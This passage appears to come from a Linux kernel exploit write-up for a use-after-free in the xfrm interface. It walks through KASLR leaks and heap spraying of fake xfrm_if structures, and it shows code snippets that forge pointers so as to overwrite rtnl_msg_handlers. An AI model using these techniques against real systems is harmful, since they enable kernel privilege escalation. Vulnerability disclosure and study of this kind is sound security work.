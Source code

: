 ```
	if (!tab)
		tab = rcu_dereference_rtnl(rtnl_msg_handlers[PF_UNSPEC]);

	return rcu_dereference_rtnl(tab[msgtype]);
}

static struct rtnl_link __rcu *__rcu *rtnl_msg_handlers[RTNL_FAMILY_MAX + 1];
```

### Summary of steps

For LTS&COS and mitigation, the overall idea is the same, but the specific steps are slightly different

#### LTS&COS
Here's the detail steps:

1. Leak kernel .text KASLR and direct mapping memory KASLR.
2. Create xfrm link `test1` to trigger the vulnerability. Create xfrm link `test2`, `test3`, `test4` for memory forging different structures.
3. Delete xfrm link `test1`.
4. Use the method mentioned in `Leak` to leak the address of `test2`'s `struct net_device`, `test3`'s `struct net_device`, and `test4`'s `struct net_device`. The specific approach is to first forge the released `test1` struct `xfrm_if` by heap spraying, and then call `xfrmi_changelink` on the three xfrm links `test2`, `test3`, and `test4` respectively:

```
static int xfrmi_changelink(struct net_device *dev, struct nlattr *tb[],
			   struct nlattr *data[],
			   struct netlink_ext_ack *extack)
{
    ...
	xi = xfrmi_locate(net, &p);//(1)
	if (!xi) {
		xi = netdev_priv(dev);
	} else {
		if (xi->dev != dev)//(2)
			return -EEXIST;
		if (xi->p.collect_md) {
			NL_SET_ERR_MSG(extack,
				       "device can't be changed to collect_md");
			return -EINVAL;
		}
	}
    ...
}
```
Assuming we call `xfrmi_changelink` on `test2`, we can retrieve the repopulated `test1` at position (1), so we can compare the fake `test1->dev` and test2's `struct net_device` value at position (2).

5. Delete `test3` and pad it by heap spray. The memory of `test3` will be treated as a fake `struct xfrmi_net` in step xxx. Here is the key heap spray code:
```
    delete_xfrm_link(socket, "test3");                                                                                                              *(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MGS_MGS+OFFSET_XFRM_IF_DEV] = address_of_test3_dev + NETDEV_PRIV - 8*XFRMI_NET_ID_VALUE; // xfrm_if->dev, will be treated as struct net_generic.
    *(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MGS_MGS+OFFSET_XFRM_IF_NET] = ADDR_OF_RTNL_MSG_HANDLERS + kernel_off + 8 - HASH_OF_TEST1_ID * 8; //xfrm_if->net (fake), will be treated as struct xfrm_if *; it means we want to overwrite (char *)&rtnl_msg_handlers+8
```
6. Free the heap which used to pad the memory of `test1`, and re-pad it:
```
    memset(message, 0x41, MSG_SIZE);
    *(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MSG_MSG+OFFSET_XFRM_IF_DEV] = address_of_test2_dev; // xfrm_if->dev, pass the check of if (xi->dev != dev)
```